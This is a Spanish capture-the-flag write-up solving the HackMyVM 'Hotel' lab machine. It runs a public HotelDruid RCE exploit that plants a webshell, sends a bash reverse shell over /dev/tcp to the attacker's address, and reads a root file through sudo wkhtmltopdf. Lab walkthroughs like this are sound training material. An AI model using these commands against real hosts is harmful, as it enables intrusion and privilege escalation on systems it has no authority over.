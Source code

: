 # Hotel - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Hotel** de la plataforma HackMyVM.  
Durante la explotación tocaremos las siguientes técnicas:

- Escaneo de puertos  
- Enumeración de directorios  
- Explotación de HotelDruid CMS (RCE)  
- Abuso de credenciales expuestas  
- Escalada de privilegios vía wkhtmltopdf  

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

```bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.163
```

Resultado:

```java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 06:1f:a2:25:19:45:2b:2f:44:cc:74:7a:e2:9b:ab:ac (RSA)
|   256 6f:b9:da:fb:eb:6b:4c:de:33:63:b7:ce:f0:2f:f7:cd (ECDSA)
|_  256 84:fb:1d:5c:4c:c6:60:e8:47:d8:2f:a0:92:8e:fb:18 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title:  Hoteldruid 
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:9D:0F:F0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 encontramos lo siguiente:  
![alt text](./posts/img/hotel001.png)

## Intrusión

Investigando un poco en internet descubrimos que se trata de un CMS para hoteles llamado **HotelDruid**.  
Usamos **searchsploit** para ver si existía algún exploit público:

```bash
searchsploit Hotel Druid
```
```bash
Hotel Druid 3.0.3 - Remote Code Execution (RCE)
HotelDruid 2.2.4 - 'anno' SQL Injection                                
HotelDruid 2.3 - Cross-Site Scripting 
HotelDruid 2.3.0 - 'id_utente_mod' SQL Injection
```

Nos llama la atención el **RCE**, así que lo descargamos y ejecutamos:

```bash
python3 50754.py -t http://192.168.1.163/ --noauth
```
```bash
/home/alejandro/Escritorio/Maquinas/hotel/nmap/50754.py:75: SyntaxWarning: invalid escape sequence '\ '
  | $$  | $$  /$$$$$$  /$$$$$$    /$$$$$$ | $$      | $$  \ $$  /$$$$$$  /$$   /$$ /$$  /$$$$$$$

 /$$   /$$             /$$               /$$       /$$$$$$$                      /$$       /$$
| $$  | $$            | $$              | $$      | $$__  $$                    |__/      | $$
| $$  | $$  /$$$$$$  /$$$$$$    /$$$$$$ | $$      | $$  \ $$  /$$$$$$  /$$   /$$ /$$  /$$$$$$$
| $$$$$$$$ /$$__  $$|_  $$_/   /$$__  $$| $$      | $$  | $$ /$$__  $$| $$  | $$| $$ /$$__  $$
| $$__  $$| $$  \ $$  | $$    | $$$$$$$$| $$      | $$  | $$| $$  \__/| $$  | $$| $$| $$  | $$
| $$  | $$| $$  | $$  | $$ /$$| $$_____/| $$      | $$  | $$| $$      | $$  | $$| $$| $$  | $$
| $$  | $$|  $$$$$$/  |  $$$$/|  $$$$$$$| $$      | $$$$$$$/| $$      |  $$$$$$/| $$|  $$$$$$$
|__/  |__/ \______/    \___/   \_______/|__/      |_______/ |__/       \______/ |__/ \_______/

Exploit By - 0z09e (https://twitter.com/0z09e)


[*] Trying to access the Dashboard.
[*] Checking the privilege of the user.
[+] User has the privilege to add room.
[*] Adding a new room.
[+] Room has been added successfully.
[*] Testing code exection
[+] Code executed successfully, Go to http://192.168.1.163/dati/selectappartamenti.php and execute the code with the parameter 'cmd'.
[+] Example : http://192.168.1.163/dati/selectappartamenti.php?cmd=id
[+] Example Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

El exploit nos indica que subió una webshell a **/dati/selectappartamenti.php** con el parámetro `cmd`.  
Nos ponemos en escucha con netcat y enviamos una reverse shell:

```bash
nc -lvnp 9001
```
```bash
http://192.168.1.163/dati/selectappartamenti.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.152/9001%200%3E%261%22
```

## Escalada de privilegios

En el directorio **/var/www/html** encontramos un archivo interesante llamado `ttylog`, el cual descargamos para analizarlo en nuestra máquina.  
Con la herramienta **ttyplay** lo ejecutamos y conseguimos la contraseña del usuario **person**:  
![alt text](./posts/img/hotel002.png)

Vemos que `person` puede ejecutar la herramienta **wkhtmltopdf** como root:

```bash
person@hotel:~$ sudo -l
Matching Defaults entries for person on hotel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User person may run the following commands on hotel:
    (root) NOPASSWD: /usr/bin/wkhtmltopdf
```

Investigando esta herramienta vemos que podemos extraer un archivo del usuario root y exportarlo a PDF para visualizarlo:

```bash
sudo wkhtmltopdf /root/root.txt root.pdf
```

Transferimos el archivo PDF a nuestra máquina:  

En la máquina víctima:

```bash
python3 -m http.server 5000
```

En la máquina atacante:

```bash
wget 192.168.1.163:5000/root.pdf
```

Al abrirlo, vemos que contiene la flag de **/root/root.txt**:  
![alt text](./posts/img/hotel003.png)

¡Ya tenemos la flag de root! 🎉